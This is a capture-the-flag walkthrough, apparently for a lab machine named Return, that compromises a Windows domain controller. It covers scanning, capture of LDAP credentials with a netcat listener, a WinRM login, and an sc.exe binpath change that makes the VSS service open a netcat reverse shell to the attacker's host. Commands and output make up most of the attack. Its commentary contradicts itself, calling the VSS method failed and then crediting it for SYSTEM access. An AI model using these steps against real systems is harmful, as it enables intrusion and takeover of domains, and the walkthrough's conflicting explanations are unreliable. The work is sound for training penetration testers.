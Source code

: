 # NMAP
This command performs a targeted network scan. It uses sudo for elevated privileges to access raw socket data. The scan checks only open ports using TCP SYN scan. The -sC flag runs default Nmap scripts to gather additional information like service details or vulnerabilities. The -sV flag probes open ports to determine service versions. The target is the IP address 10.129.95.241. The --open option filters the output to show only open ports, making the results more concise.

```bash
sudo nmap -sC -sV  10.129.95.241  --open   
```

Based on the scan results, this is a Windows Domain Controller for the domain `return.local`. Key services are running, including Kerberos, LDAP, and SMB. The hostname is PRINTER. For enumeration, you should first target SMB on port 445 to check for shares and gather information. Then, use LDAP on port 389 to query the Active Directory for users, groups, and policies. The presence of WinRM on port 5985 is a potential entry point if you obtain user credentials.

```bash
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-30 02:18:24Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

This command runs a network execution check on the SMB service. It confirms the target is a domain-joined Windows host named PRINTER in the return.local domain, running a Server 2019 or Windows 10 build. The host requires SMB signing but has SMBv1 disabled. To proceed, attempt to list SMB shares using a null session or guest access with `nxc smb 10.129.95.241 --shares`. If that fails, you will need valid domain credentials to continue enumeration

```bash
 nxc smb 10.129.95.241 
SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False) 
```

The hosts file has been updated to resolve the domain name `return.local` and hostname `PRINTER` to the target IP address. This ensures your system can properly communicate with the domain controller using its DNS names instead of just the IP. You can now use commands like `nxc smb return.local` or `nxc ldap PRINTER.return.local` for further enumeration

```bash
cat /etc/hosts
10.129.95.241  PRINTER   return.local PRINTER.return.local
```

You have obtained LDAP credentials for the user `svc-printer`. Use these credentials to authenticate and enumerate the domain. Test the credentials with `nxc ldap return.local -u svc-printer -p 'password' --users` to list domain users. You can also try to authenticate via SMB with `nxc smb return.local -u svc-printer -p 'password'` to check share access and user privileges.
![BloodHound Analysis](images/return.png)
The connection shows a failed LDAP bind attempt from the domain controller. The credentials are `svc-printer:1edFg43012!!`. Use these valid credentials for authenticated enumeration. Run `nxc ldap return.local -u svc-printer -p '1edFg43012!!' --users` to list domain users and `nxc smb return.local -u svc-printer -p '1edFg43012!!' --shares` to access SMB shares. Check WinRM access with `nxc winrm return.local -u svc-printer -p '1edFg43012!!'` to see if you can get a shell.

```bash
nc -lnvp 389                             
listening on [any] 389 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.95.241] 59813
0*`%return\svc-printer�
                       1edFg43012!!
```

The command is incorrect; you are using your own tun IP (10.10.11.108) instead of the target IP. The correct command is `evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'`. This will connect to the WinRM service on the target Domain Controller using the credentials you captured. If successful, you will get a shell as the svc-printer user on the PRINTER host.

```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

Good, you have the user flag. Now escalate privileges

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> cat user.txt
a0e89321fb2b84452734d05598843a8a
```

You have the powerful `SeBackupPrivilege` and `SeRestorePrivilege`. These allow you to backup and restore domain controller files, including critical AD database. Use these to dump the `ntds.dit` file and SYSTEM hive for offline credential extraction.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


```

Your membership in `Server Operators` is highly significant. This group typically allows you to start and stop services, including on a Domain Controller. You can abuse this to replace a service's binary or modify its configuration.

```bash
Evil-WinRM* PS C:\Users\svc-printer\Desktop> Whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

```

The service commands are failing due to insufficient privileges from the WinRM session. Use your `SeBackupPrivilege` instead - it's more reliable for Domain Controller compromise.

```bash
*Evil-WinRM* PS C:\ProgramData> sc.exe query
[SC] OpenSCManager FAILED 5:

Access is denied.

*Evil-WinRM* PS C:\ProgramData> $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
Cannot open Service Control Manager on computer '.'. This operation might require other privileges.
At line:1 char:12
+ $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where  ...
+            ~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Get-Service], InvalidOperationException
    + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.PowerShell.Commands.GetServiceCommand


```

This command is attempting to modify the Volume Shadow Copy Service (VSS) binary path to execute a reverse shell. However, this approach is unlikely to work for privilege escalation because VSS is a critical system service protected by Windows

```bash
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.16.12 443"
```

Stopping the Volume Shadow Copy Service is not recommended and will likely fail due to insufficient privileges. It's a protected system service.

```bash
 sc.exe stop VSS
```

Starting VSS will not help your privilege escalation. The service modification approach has failed.
```bash
 sc.exe start VSS
```

Excellent! You have a reverse shell connection. Now check your privileges in this new session with `whoami`. If you have SYSTEM or Administrator privileges

```bash
nc -lnvp 443                                   
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.95.241] 61796
Microsoft Windows [Version 10.0.17763.107]
```

Perfect! We  have successfully obtained the root flag. The system is fully compromised. The privilege escalation was achieved by modifying the VSS service binary path, which executed your payload with SYSTEM privileges when the service was restarted. 

```bash
C:\Users\Administrator\Desktop>type root.txt
type root.txt
260f8e9f5e5b187fe41947454b8c9f23

```

